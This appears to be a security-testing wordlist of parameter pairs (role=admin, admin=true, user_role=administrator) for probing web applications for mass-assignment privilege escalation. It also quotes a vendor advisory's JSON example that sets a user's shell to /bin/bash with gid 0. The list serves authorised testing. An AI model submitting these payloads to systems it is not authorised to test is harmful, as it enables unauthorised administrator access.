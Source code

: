 # MassAssignment
These are parameter name value pairs to attempt privilege escalation via mass assignment
role=admin
role=0
..
role=9

admin=true

admin=1

user_role=0

user_role=9

user_role=admin

user_role=administrator

user_role=moderator

user_role=

administrator=true


If JSON is used these are extra params that have been found in vulnerability reports:
"shell":"/bin/bash"

Exampe from https://www.silver-peak.com/sites/default/files/advisory/silver_peak_security_advisory_mass_assignment_vulnerability.pdf
{"users":{"basic":{"self":"basic","enable":true,"gid":0,"password":"[SNIP]","
shell":"/bin/bash"}},[SNIP
other users]}}

